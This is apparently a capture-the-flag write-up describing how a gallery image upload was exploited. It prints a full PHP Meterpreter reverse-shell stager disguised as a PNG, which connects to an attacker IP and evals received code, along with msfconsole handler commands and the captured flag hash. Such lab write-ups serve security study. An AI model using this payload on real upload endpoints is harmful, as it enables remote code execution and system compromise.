

# 6 of Diamonds 


On port 8200 we find a gallery webpage with an upload feature. The uploader wants an image. Tried a bunch of different ideas involving embedding shellcode into pngs. Finally landed on caapturing the upload with Burpsuite and altering the request before forwarding it on.
```
Content-Disposition: form-data; name="file"; filename="evil.png"
Content-Type: image/png

‰PNG
/*<?php /**/ error_reporting(0); $ip = '172.15.41.116'; $port = 1234; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

This method is based on [https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)

Using Burp to intercept the upload of a good image. Send that to Repeater. Make adjustments until msfconsole shell. To set this up, on the ssh remote (use ip add to get ip address):
```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost ...
set lport 1234
exploit
```
then navigate to the tainted png. This should spawn the shell. From there, navigate through any dir that looks interesting. Found ./157a7640-0fa4-11eb-adc1-0242ac120002/6_of_diamonds.png for the win.

FLAG:
```
e814d5882614d662d09425987a992dee
```
